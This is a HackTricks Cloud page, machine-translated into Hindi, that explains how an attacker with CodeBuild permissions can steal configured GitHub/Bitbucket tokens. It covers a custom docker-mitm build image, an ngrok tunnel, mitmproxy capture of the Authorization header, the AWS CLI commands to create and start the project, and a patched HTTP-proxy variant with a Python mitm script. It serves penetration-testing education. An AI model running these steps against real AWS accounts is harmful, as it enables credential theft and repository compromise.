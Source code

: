 # AWS Codebuild - टोकन लीकेज

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा संग्रह अनन्य [**NFTs**](https://opensea.io/collection/the-peass-family)
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो** करें।**
* **अपने हैकिंग ट्रिक्स को साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>

## Github/Bitbucket कॉन्फ़िगर किए गए टोकन को पुनर्प्राप्त करें

सबसे पहले, यह जांचें कि क्या कोई स्रोत प्रमाणपत्र कॉन्फ़िगर किए गए हैं जिन्हें आप लीक कर सकते हैं:
```bash
aws codebuild list-source-credentials
```
### डॉकर इमेज के माध्यम से

यदि आपको पता चलता है कि उदाहरण के लिए गिटहब में प्रमाणीकरण सेट किया गया है, तो आप कोडबिल्ड को उस एक्सेस (जीएच टोकन या ओआथ टोकन) को **बाहर निकाल सकते हैं** जिसे उपयोग करके आप परियोजना के बिल्ड को चलाने के लिए कोडबिल्ड को **एक विशेष डॉकर इमेज का उपयोग करने के लिए** कर सकते हैं।

इस उद्देश्य के लिए आप **एक नया कोडबिल्ड परियोजना बना सकते हैं** या एक मौजूदा परियोजना के **वातावरण** को बदलकर **डॉकर इमेज** को सेट कर सकते हैं।

आप उपयोग कर सकते हैं [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm) यह एक बहुत साधारण डॉकर इमेज है जो **एनवायरनमेंट वेरिएबल्स `https_proxy`**, **`http_proxy`** और **`SSL_CERT_FILE`** सेट करेगी। इससे आपको **`https_proxy`** और **`http_proxy`** में निर्दिष्ट होस्ट के अधिकांश ट्रैफिक को अवरोधित करने और **`SSL_CERT_FILE`** में निर्दिष्ट SSL CERT पर भरोसा करने की अनुमति मिलेगी।

1. **अपना डॉकर MitM इमेज बनाएं और अपलोड करें**
* रेपो के निर्देशों का पालन करें और अपने प्रॉक्सी आईपी पते को सेट करें और अपना SSL सर्टिफिकेट सेट करें और **डॉकर इमेज बनाएं**।
* **मेटाडेटा एंडपॉइंट के लिए अनुरोधों को अवरोधित करने के लिए `http_proxy` सेट न करें**।
* आप अपने होस्ट के लिए प्रॉक्सी को सेट करने के लिए `ngrok` की तरह `ngrok tcp 4444` का उपयोग कर सकते हैं
* जब आपके पास डॉकर इमेज तैयार हो जाए, तो इसे **एक सार्वजनिक रेपो** (Dockerhub, ECR...) में अपलोड करें।
2. **वातावरण सेट करें**
* एक **नया कोडबिल्ड परियोजना बनाएं** या मौजूदा परियोजना के वातावरण को **संशोधित** करें।
* परियोजना को **पहले से उत्पन्न डॉकर इमेज** का उपयोग करने के लिए सेट करें
*

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **अपने होस्ट में MitM प्रॉक्सी सेट करें**
* **Github रेपो** में निर्दिष्ट किया गया है जैसा कि आप कुछ इस तरह से कर सकते हैं:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
4. **बिल्ड चलाएं और क्रेडेंशियल को कैप्चर करें**

*   आप **Authorization** हैडर में टोकन देख सकते हैं:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

इसे आप aws cli से भी कर सकते हैं, जैसे कि:

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP प्रोटोकॉल के माध्यम से~~

{% hint style="success" %}
**यह सुरक्षा कमजोरी को AWS ने 20 फरवरी 2023 के सप्ताह के किसी बिंदु पर सुधार दिया था (मुझे लगता है शुक्रवार को)। इसलिए एक हमलावर्ती इसे अब और उपयोग नहीं कर सकता :)**
{% endhint %}

एक हमलावर **CodeBuild में उच्च अनुमतियों के साथ लीक कर सकता है गिटहब/बिटबकेट टोकन** को यदि अनुमतियाँ OAuth के माध्यम से कॉन्फ़िगर की गई थीं, तो **अस्थायी OAuth टोकन को भी लीक कर सकता है जो कोड तक पहुँच करने के लिए उपयोग होता है**।

* एक हमलावर यदि उसकी मशीन की ओर पोइंट करने वाले वातावरण चरों **http\_proxy** और **https\_proxy** को CodeBuild परियोजना में जोड़ सकता है (उदाहरण के लिए `http://5.tcp.eu.ngrok.io:14972`)।

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* फिर, गिटहब रेपो के URL को HTTPS की बजाय HTTP का उपयोग करने के लिए बदलें, उदाहरण के लिए: **http://**github.com/carlospolop-forks/TestActions
* फिर, प्रॉक्स चरों (http\_proxy और https\_proxy) द्वारा इंगित पोर्ट में [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) के मूल उदाहरण को चलाएं।
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* अंत में, **परियोजना को बिल्ड करें** पर क्लिक करें, **क्रेडेंशियल्स** साफ पाठ (बेस64) में mitm पोर्ट पर भेजे जाएंगे:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
अब एक हमलावर अपनी मशीन से टोकन का उपयोग कर सकेगा, उसमें सभी विशेषाधिकारों की सूची बना सकेगा और (अधिक) आसानी से CodeBuild सेवा का उपयोग करने की तुलना में दुरुपयोग कर सकेगा।
{% endhint %}

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी **कंपनी को हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को पीडीएफ में डाउनलोड करना चाहते हैं**, तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह देखें
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>
